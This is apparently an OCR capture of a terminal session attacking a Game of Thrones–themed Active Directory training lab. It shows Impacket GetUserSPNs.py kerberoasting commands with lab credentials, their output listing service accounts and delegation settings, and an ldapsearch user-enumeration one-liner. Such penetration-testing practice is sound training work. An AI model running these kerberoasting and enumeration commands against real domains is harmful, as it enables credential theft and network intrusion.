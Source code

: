 (myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt

# Gegen KINGSLANDING Domain (sevenkingdoms.local)
GetUserSPNs.py sevenkingdoms.local/user:pass -dc-ip 192.168.20.10 -outputfile kerberoast_main.txt

# Gegen ESSOS Domain (essos.local)
GetUserSPNs.py essos.local/user:pass -dc-ip 192.168.20.12 -outputfile kerberoast_essos.txt
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                                 Name         MemberOf                                                    PasswordLastSet             LastLogon                   Delegation  
---------------------------------------------------  -----------  ----------------------------------------------------------  --------------------------  --------------------------  -----------
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark  CN=Stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local        2025-04-13 18:44:32.702102  <never>                                 
CIFS/thewall.north.sevenkingdoms.local               jon.snow     CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2025-04-13 18:45:11.138577  <never>                     constrained 
HTTP/thewall.north.sevenkingdoms.local               jon.snow     CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2025-04-13 18:45:11.138577  <never>                     constrained 
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc                                                                  2025-04-13 18:45:36.012934  2025-04-13 19:12:10.107555              
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc                                                                  2025-04-13 18:45:36.012934  2025-04-13 19:12:10.107555              



[-] CCache file is not found. Skipping...
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C090690, comment: AcceptSecurityContext error, data 52e, v4563
/home/tala/myenv/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C09062E, comment: AcceptSecurityContext error, data 52e, v3839
(myenv) root@tala-HP-255-15-6-inch-G10-Notebook-PC:~# ldapsearch -x -H ldap://192.168.20.11 -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d: -f2 | tr -d ' ' > users.txt
